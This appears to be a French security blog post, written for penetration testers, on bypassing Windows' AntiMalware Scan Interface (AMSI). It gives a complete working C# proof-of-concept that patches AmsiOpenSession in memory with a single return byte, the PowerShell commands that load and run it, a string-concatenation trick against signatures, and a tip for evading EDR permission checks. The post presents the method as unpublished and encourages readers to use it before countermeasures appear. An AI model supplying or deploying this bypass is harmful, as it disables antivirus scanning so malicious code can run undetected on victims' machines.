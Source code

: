 
L'__AMSI__ (AntiMalware Scan Interface) contient un ensemble de fonctions appelables par des antivirus afin de scanner un fichier. L'__AMSI__ est bien entendu utilisé par __Windows Defender__.

Lors d'un test d'intrusion interne, il arrive souvent (tout le temps) que l'on utilise les outils directement présents sur les machines compromises, comme __Powershell__ ^^.

Lorsque l'__AMSI__ est utilisé par __Windows Defender__ ou par un antivirus tiers, la DLL __amsi.dll__ est chargée en mémoire dans Powershell comme on peut le voir ci-dessous:

![image alt text](/images/bypass-amsi/amsi.png)

Si l'on exécute du code dans l'interface powershell, le code est d'abord soumis à l'analyse par l'__AMSI__ et l'on obtient généralement une erreur du type:

![image alt text](/images/bypass-amsi/amsi_error.png)

Il existe plein de moyen de bypass de l'AMSI: 

* https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

* https://rastamouse.me/2018/10/amsiscanbuffer-bypass---part-1/

* https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html

Je vais vous présenter ici une méthode de bypass  un peu différente de ce qui existe déjà. Et comme personne ne me connait, elle n'est probablement pas encore diffusée publiquement. So, enjoy !! (avant que des contre-mesures ne soient prises).
Mais soyez tranquille, ce n'est vraiment pas bien compliqué.

Dans le screenshot précédent, la string "AmsiScanBuffer" a été détectée comme malveillante, car il s'agit d'une string faisant référence à une fonction de __amsi.dll__. Une signature a donc été mise en place concernant cette string afin d'éviter que cette fonction ne soit appelée...

Un bypass très simple consiste alors à modifer cette string tout en gardant son sens: concaténation. Voyez l'example ci-dessous:

![image alt text](/images/bypass-amsi/amsi_concatenate.png)

Cependant, ce n'est clairement pas le genre de bypass que je voulais évoquer ..., ni même que je souhaiterais voir dans ce blog comme un article à part entière.

Regardons plutôt ce qu'il se passe au niveau des appels API. Lorsque je debogue un processus powershell et que je met des __breakpoints__ sur les APIs de __amsi.dll__ on voit que la première fonction à être appelée est la fonction __AmsiOpenSession__ comme on peut le voir ci-dessous:

![image alt text](/images/bypass-amsi/amsi_open_session.png)

La msdn de cette fonction est: https://docs.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiopensession

Il apparait évident que pour demander à __amsi.dll__ d'effectuer un scan, il faut d'abord ouvrir une session. Ainsi le scan sera actif pour une session donnée. Si le scan réussi, la fonction retourne __S_OK__, sinon, elle retourne un handle vers un code d'erreur __HRESULT__.

On voit ci-dessus que le code est très court et très simple, et que la valeur tout en bas, juste avant le __ret__  (__0x80070058__) est significative pour l'execution de cette fonction. Regardons avec IDA à quoi ressemble la fonction __AmsiOpenSession__:

![image alt text](/images/bypass-amsi/amsi_open_session_ida.png)

On y voit qu'il y a 2 résultats possibles pour __eax__: __0__ (xor eax, eax) ou __0x80070058__ (mov eax, 80070058). Lorsque __eax = 0__, tout s'est bien passé, c'est-à-dire que la session a bien été ouverte. En revanche lorsque __eax = 0x80070058__, il y a eu une erreur et la session ne s'est pas ouverte.

Si l'on patche la fonction __AmsiOpenSession__ de sorte que les instructions qu'elle execute sont:

```
B8 57 00 07 80 	mov eax, 0x80070057
C3		ret
```

On évitera alors l'exécution du code qui permet d'ouvrir une session. C'est le même principe que celui qui est évoqué dans l'un des articles que j'ai cité plus haut (qui le font sur __AmsiScanBuffer__). Cependant, l'idée est ici de ne même pas donné la possibilité au code d'ouvrir une session et de lancer un scan.

On a vu qu'il fallait forcément que __eax = 0__ pour qu'une session soit considérée comme ouverte. Si maintenant, je décide simplement de ne pas lui spécifier la valeur de __eax__ et que mon patch se résume alors:

```
C3		ret
```

On voit que le patch est bien plus petit, qu'il ne contient aucun null byte et permet de bypasser l'amsi ^^, mais également de l'insérer dans un shellcode très facilement.

Voic la DLL que j'ai codé en C# pour servir de POC: 

```
using System;
using System.Runtime.InteropServices;

public class Amsi
{
    static byte[] x64 = new byte[] { 0xC3 };
    static byte[] x86 = new byte[] { 0xC3 };

    public static void Bypass()
    {
        if (is64Bit())
            AmsiPatch(x64);
        else
            AmsiPatch(x86);
    }

    private static void AmsiPatch(byte[] patch)
    {
        try
        {
            var lib = Windows32.LoadLibrary("amsi.dll");
            var addr = Windows32.GetProcAddress(lib, "AmsiOpenSession");

            uint oldProtect;
            Windows32.VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);

            Marshal.Copy(patch, 0, addr, patch.Length); // AmsiOpenSession 0xc3
            
        }
        catch (Exception e)
        {
            Console.WriteLine(" [x] {0}", e.Message);
            Console.WriteLine(" [x] {0}", e.InnerException);
        }
    }

    private static bool is64Bit()
        {
            bool is64Bit = true;

            if (IntPtr.Size == 4)
                is64Bit = false;

            return is64Bit;
        }
}

class Windows32
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
```

Le code est extrement simple, je récupère un pointeur vers __amsi.dll__ avec __LoadLibrary()__, puis je recherche l'adresse de la fonction __AmsiOpenSession()__ que je patch avec __Copy()__.
Bien évidement il ne faut pas oublier de modifier les permissions de la zone mémoire où est située __AmsiOpenSesion()__. Elle est initialement en __RE__ (Read Execute). Il faut la passer en __RWE__ (Read Write Execute). Pour cela j'utilise la fonction __VirtualProtect()__.

A noter que l'idéal serait de remettre la bonne permission (RE) après le patch, car il y a certain __EDR__ qui vérifie les permissions régulièrement.

On voit dans le screenshot ci-dessous que le bypass fonctionne correctement. On peut alors lancer du code powershell comme bon nous semble:

![image alt text](/images/bypass-amsi/amsi_bypass.png)

Je commence par charger la DLL en mémoire:

```
PS > [System.Reflection.Assembly]::LoadFile("C:\amsi_bypass.dll")
```

Puis j'execute la fonction qui patch en mémoire __amsi.dll__:

```
PS > [Amsi]::Bypass()
```

Il faut noter que ce bypass de l'__amsi__ n'est effectif que pour le process powershell en cours. En effet à chaque process powershell __amsi.dll__ est chargée en mémoire et donc il faut de nouveau patcher. Si l'on souhaite un patch plus général, il faut alors patcher le module kernel associé ... (il faut déjà avoir les droits de tout faire sur la machine ...)

La chose qu'il est amusant de retenir, c'est que l'__AMSI__ considère que tout va bien lorsque les fonctions qu'il utilise retournent une erreur :D, ce qui est complétement absurde. Dans le doute, on considère que c'est malveillant plutôt que légitime, non? Enfin, il me semble ...

De plus, ce bypass permet d'éviter completement l'utilisation de la fonction __AmsiScanBuffer()__. On alors court-cicuite complétement le scan, ce qui est top !
